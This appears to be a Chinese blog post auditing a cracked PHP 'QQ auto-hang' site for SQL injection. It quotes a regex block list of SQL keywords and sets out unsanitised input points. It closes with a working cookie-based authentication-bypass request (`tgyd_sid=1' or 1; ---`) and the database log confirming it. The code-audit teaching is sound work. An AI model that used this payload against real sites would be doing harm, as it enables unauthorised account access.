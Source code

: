 ```yaml
---
title: 'PHP - 简单代码审计'
date: 2018-07-18 12:34:05
tags:
    - Code Audit
    - PHP
    - Web
    - 网络安全
categories:
    - 技术分享
---
```


翻网盘的时候翻到了一堆 `代挂网站源码` ，大概是以前和别人合作的时候别人给的参考网站，现在对其中部分代码进行一次简单的代码审计，本次主要审计外部变量造成的SQL注入，运行环境版本为 `PHP5`
<!-- more -->
程序代码给出下载：

[天高云淡V2免授权版1.20.7z](simple-code-audit/code.zip)

## PHP的外部变量

| 变量名 | 说明 |
|-------|------|
| $_SERVER | 记录服务器信息 |
| $_POST | 记录请求表单 |
| $_GET | 记录请求GET参数|
| $_COOKIE | 记录请求的Cookies|

## 代码审计 

一般来说，对于源代码中的外部变量遵循一个铁则：

> 永远不要相信用户的输入

本次利用 `NotePad++` 对代码进行搜索并分析上下文来确定是否包含SQL注入。

*搜索变量*

![](simple-code-audit/1.png)

## 审计过程

一般来说，比较简单的PHP网站，一个PHP文件一个页面，没有使用框架，就基本上不会对外部变量进行过滤，从代码来看，代码的作者至少有3位：

**转义函数**

```php
function safestr($str){
	if(!get_magic_quotes_gpc()){
		return addslashes($str);
	}else{
		return $str;
	}
}
```

### 说明

`addslashes`() 函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：
- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。所以您不应对已转义过的字符串使用 `addslashes`()，因为这样会导致双层转义。遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。

可以看到这里对输入的字符串进行一次过滤，使用的地方如：

> /find.php:1~6
```php
<?php
require_once('includes/common.php');
if($_POST['do']=='find'){
	session_start();
	$user=safestr($_POST['user']);
	$aqanswer=safestr($_POST['aqanswer']);
```

但是也有未使用的地方（此管理目录，虽然有注入点，但是需要管理员权限才可运行）：

> /admin/addfz.php:13~15
```php
$d_qq = $_POST['d_qq'];
$d_user_name = $_POST['d_user_name'];
$d_user_pwd = $_POST['d_user_pwd'];
```

**安全检测**

此份代码里包含了安全检测部分，检测输入变量是否包含恶意字符：

> /includes/360_safe3.php

*部分代码*

```php
...
$getfilter="'|(and|or)\\b.+?(>|<|=|in|like)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$postfilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$cookiefilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
...
foreach($_GET as $key=>$value){ 
	StopAttack($key,$value,$getfilter);
}
foreach($_POST as $key=>$value){ 
	StopAttack($key,$value,$postfilter);
}
foreach($_COOKIE as $key=>$value){ 
	StopAttack($key,$value,$cookiefilter);
}
```

## 审计结果

从代码静态审计来看，注入点比较多，例如：

> /mgmt/qd.php:17 注入参数： POST:uin
```php
$qq=$_POST['uin'];
...
if (!$qqrow=$db->get_row("select * from {$prefix}qqs where qq='$qq' and uid='$userrow[uid]' limit 1")) {
```

### 可用注入

>/includes/common.php:77 注入参数：COOKIE:tgyd_sid **可用**
```php

$cookiesid = $_COOKIE['tgyd_sid'];

if ($cookiesid && $userrow = $db->get_row("select * from {$prefix}users where sid ='$cookiesid' limit 1")) {

    C('loginuser', $userrow['user']);

    C('loginuid', $userrow['uid']);

} 
```

### POST 实列

```
GET http://qq.atd3.org/includes/common.php HTTP/1.1
Host: qq.atd3.org
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:tgyd_sid=1' or 1%3B --- 
X-Forwarded-For: 222.222.112.1

```

### 注入日志

```
180718 12:32:12	   16 Connect	root@localhost on 
		   16 Init DB	qq_tgyd
		   16 Query	set names utf8
		   16 Query	select * from tgyd_separate where urls='qq.atd3.org' limit 1
		   16 Query	select * from tgyd_webconfigs
		   16 Query	select * from tgyd_users where sid ='1' or 1; ---' limit 1
		   16 Quit	
```